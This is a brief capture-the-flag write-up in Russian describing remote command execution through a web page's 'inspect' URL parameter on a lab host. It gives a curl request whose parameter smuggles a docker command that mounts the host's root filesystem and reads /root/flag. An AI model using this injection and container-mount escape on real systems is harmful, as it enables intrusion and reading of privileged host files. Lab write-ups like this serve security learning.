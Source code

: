 Изучив сайт видим что при нажатие "инспектировать" в url строке есть возможность RCE
отправляем запрос ```
curl "http://10.10.0.24/?inspect=web%3B%20docker%20run%20--rm%20-v%20/%3A/host-root%20alpine%20cat%20/host-root/root/flag"```
Запрос запускает временный контейнер, который монтирует файловую систему хоста в /host-root, затем выполняем чтение файла /host-root/root/flag и выводит содержимое